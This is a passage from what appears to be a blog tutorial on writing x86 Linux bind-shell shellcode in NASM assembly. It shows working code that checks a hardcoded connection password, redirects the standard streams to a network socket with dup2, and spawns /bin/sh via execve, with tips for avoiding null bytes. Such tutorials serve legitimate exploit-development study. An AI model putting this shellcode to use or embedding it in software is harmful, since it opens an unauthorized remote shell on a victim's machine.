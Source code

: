 Time to compare the received string to our password "w0t1sd1s".

Of course our registers can only hold four characters, so we will just split it into two parts.
Don't forget that our string is in little-endian format.

{% highlight nasm %}
        
        cmp dword [esp + 8],  0x31743077 ; Compare password[1-4] to 'w0t1'
        jnz listen                       ; Jump to listen if not equal
        cmp dword [esp + 12], 0x73316473 ; Compare password[5-8] to 'sd1s'
        jnz listen                       ; Jump to listen if not equal


{% endhighlight %}

If someone connects to our shell and does not know the password, the shellcode will start re-listening to the same port.
That means the connection will hang until the end of time _or until they terminate the connection_.

So if you provide the wrong password to actually access the shell you need to re-connect and try again.

Next in our list, use _{% raw %}dup2(STDxxx,client_sockfd){% endraw %}_ and copy STDIN,STDOUT,STDERR to our client socket.

{% highlight nasm %}
        
        xor ecx, ecx    ; Zero out the ECX register, now it points to STDIN.
        mov ebx, esi    ; Copy socket file descriptor from ESI to EBX.

duploop:
        mov al, 0x3f    ; Put the sys_dup2 number into EAX.
        int 0x80        ; Use interupt 0x80 to invoke a syscall.
        inc ecx         ; Increase ECX so it points to STDOUT, STDERR.
        cmp cl, 0x03    ; Check if we are EBX is bigger than STDERR (2).
        jnz duploop     ; if not keep increasing EBX and calling dup2().
        
        ; dup2(client_sockfd, STDIN)
        ; dup2(client_sockfd, STDOUT)
        ; dup2(client_sockfd, STDERR)
{% endhighlight %}

And last but not least calling _{% raw %}execve("/bin/sh",NULL,NULL){% endraw %}_.

The string "/bin/sh" is 7-bytes long, we have to push 8-bytes on the stack in order to avoid having a NULL byte in our shellcode.
We can just use **"//bin/sh"** or **"/bin//sh"** since it does not really make a difference.

{% highlight nasm %}
        xor ecx, ecx    ; Zero out the ECX register.
        
        mov al, 0x0b    ; Put the sys_execve number into EAX.
        push ecx        ; Push NULL so we can terminate our string.
        push 0x68732f6e ; 'n/sh'
        push 0x69622f2f ; '//bi'
        mov ebx, esp    ; Copy a pointer to "//bin/sh" in EBX.
        mov edx, ecx    ; Copy NULL from ECX

        int 0x80        ; Use interupt 0x80 to invoke a syscall.
{% endhighlight %}
